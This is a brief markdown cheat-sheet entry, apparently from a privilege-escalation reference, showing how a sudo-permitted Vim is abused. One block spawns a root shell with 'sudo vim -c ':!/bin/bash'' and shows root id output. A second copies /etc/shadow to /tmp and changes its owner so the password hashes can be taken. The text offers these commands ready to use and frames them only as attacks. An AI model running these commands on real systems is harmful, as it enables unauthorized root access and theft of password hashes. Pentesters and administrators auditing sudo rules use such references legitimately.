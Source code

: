 # Vim

## Spawn Shell

```
user@debian:~$ sudo vim -c ':!/bin/bash'

root@debian:/home/user# id
uid=0(root) gid=0(root) groups=0(root)
```

## Harvest Credentials

```
user@debian:~$ sudo vim /etc/shadow
:w /tmp/shadow
:!chown <username>:<username> /tmp/shadow
```